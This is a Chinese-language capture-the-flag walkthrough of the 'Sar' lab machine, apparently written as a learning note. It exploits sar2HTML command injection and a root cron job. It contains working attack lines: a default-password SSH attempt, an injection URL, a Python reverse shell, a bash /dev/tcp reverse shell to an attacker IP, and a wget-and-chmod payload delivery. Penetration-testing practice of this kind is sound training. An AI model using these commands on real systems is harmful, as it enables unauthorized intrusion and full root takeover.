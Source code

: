 # Sar
## 1. 信息收集
不过多阐述，只展示结果
```
端口：
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

服务器：
Apache2 Ubuntu

目录：
http://192.168.212.35/phpinfo.php
http://192.168.212.35/robots.txt
```
## 2. 立足点获取
### 2.1 SSH
弱口令
```
ssh root@192.168.212.35
root root
root 123456
root rootroot
```
### 2.2 HTTP
访问 `robots.txt`
![[Pasted image 20240815114422.png]]
发现一个类似 `CMS` 的东西，`sar2HTML`

上网搜索相关漏洞，有 RCE
`https://www.exploit-db.com/exploits/47204`
![[Pasted image 20240815114705.png]]

尝试利用 RCE
```
http://192.168.212.35/sar2HTML/index.php?plot=;whoami
```
![[Pasted image 20240815114810.png]]
这个回显点比较独特，在一个选择栏里面。这样的回显点很容易遭到忽视，以后要注意，多点一点网页

既然可以 RCE ，那就上 reverse shell
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.238",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
成功
![[Pasted image 20240815115024.png]]

拿到第一个 flag
![[Pasted image 20240815115153.png]]

## 3. 提权
在 `/var/www/html` 发现了可疑的 `sh` 脚本， `finally.sh` 和 `write.sh`
![[Pasted image 20240815115346.png]]

怀疑是否能进行提权，查询
![[Pasted image 20240815115727.png]]

到这里可能会有一条思路，就是把 `write.sh` 删了，再执行 `finally.sh` (可执行)。
```
rm write.sh
```
把 `write.sh`删了，换上准备好的 reverse shell，这样做是对的，但执行 `finally.sh` 时，是以用户 `www-data` 的权限执行的，没有起到提权的效果。还有一种方法，可以给 `finally.sh` 设置 SUID 位，但是没有 `r` 的权限，所以无法设置 `seteuid(0)`，不能这样提权。

于是看向这个文件
```
cat /etc/crontab
```

文件关键内容
```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```
`crontab` 的定时规则有点复杂，可以使用网站来辅助

`https://crontab.guru/`
![[Pasted image 20240815120846.png]]
查出是每 5 分钟执行一次，不算太长。

综上所述，每过 5 分钟，系统会让 root 执行 `finally.sh`

而 `finally.sh` 又会执行 `write.sh`
![[Pasted image 20240815121100.png]]

所以就是每过 5 分钟，以 root 的权限执行 `write.sh`

于是找到 `sh` 脚本的 reverse shell，先本地写好
```
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.238/9999 0>&1
```

搭建本地服务器
```
python -m http.server 80
```

让目标机器获取 reverse shell，同时本地开启监听 9999 端口。注意不要和之前的 8888 端口的 reverse shell 弄重合了。监听端口时建议重命名窗口，在最前面标上端口。
```
wget http://192.168.45.238/write.sh
```

还有，别忘了加权限，才接收收到时是没有 `x` 权限的
![[Pasted image 20240815123636.png]]
直接上最高权限，任何用户都可以 `r` `w` `x`
```
chmod 777 write.sh
```

等待 5 分钟，root 执行 `finally.sh`，然后执行 `write.sh`，触发 reverse shell，获取 root 权限
![[Pasted image 20240815124157.png]]

找到第二个 flag，结束
![[Pasted image 20240815124254.png]]

## 4. 8.18 再打
```
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.238/9999 0>&1
```

只有这个版本的 `.sh` 脚本成功了 (上下都是 `bash`)

